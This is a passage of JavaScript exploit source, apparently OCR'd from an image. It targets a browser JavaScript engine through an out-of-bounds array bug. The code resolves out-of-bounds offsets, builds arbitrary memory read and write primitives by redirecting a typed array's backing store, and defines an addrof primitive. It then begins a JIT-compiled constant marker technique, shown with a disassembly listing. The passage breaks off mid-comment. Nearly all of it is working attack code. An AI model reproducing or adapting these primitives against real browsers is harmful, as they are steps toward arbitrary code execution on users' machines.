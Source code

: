 ```js
function ResolveFA() {
    // Not totally sure what this constant is, but it appears 16 bytes before the first objArr pointer
    for (var i = 0; i < 20; i++) {
        if (ftoi(floatArr.oob(i)) == 0x300000006n)
            return i - 2;
    }
}
FA = ResolveFA();
// Resolve objArr OOB index
function ResolveOA() {
    // Not totally sure what this constant is, but it appears 16 bytes before the typedArr backing pointer
    for (var i = 0; i < 20; i++) {
        if (ftoi(objArr.oob(i)) == 0x12cn)
            return i + 2;
    }
}

OA = ResolveOA();

console.log("OA: " + OA + ", FA: " + FA);
// OA = 13
// FA = 9
// Seems to be the same in browser + shell - resolve to be safe


// Change the backing store of the typedArray to our address and read `count` bytes out
function read(addr, count) {
    let bk = objArr.oob(OA);
    objArr.oob(OA, itof(addr));
    let ret = typedArr.slice(0, count);
    objArr.oob(OA, bk);
    return ret;
}

// Change the backing store of the typedArray to our address and write `count` bytes in
function write(addr, data) {
    console.log("Writing " + data + " to " + addr.toString(16));
    let bk = objArr.oob(OA);
    objArr.oob(OA, itof(addr));
    for (var i = 0; i < data.length; i++) {
        typedArr[i] = Number(data[i]);
    }
    objArr.oob(OA, bk);
}

function addrof(o) {
    objArr[0] = o;
    let addr = ftoi(floatArr.oob(FA));
    return arr2int(read(addr, 8), false);
}

// Compile our code to native -
// 0xdeadbeefbaadc0de will be used as a marker to locate the start of our constants
/*
   0x203fc11293c:	movabs r11,0xfffa80000000000b
   0x203fc112946:	mov    QWORD PTR [rbp-0x50],r11
   0x203fc11294a:	movabs r11,0xfffa80000000000b
   0x203fc112954:	mov    QWORD PTR [rbp-0x58],r11
   0x203fc112958:	movabs r11,0xfffa80000000000b
   0x203fc112962:	mov    QWORD PTR [rbp-0x60],r11
   0x203fc112966:	movabs r11,0xfffa80000000000b
```
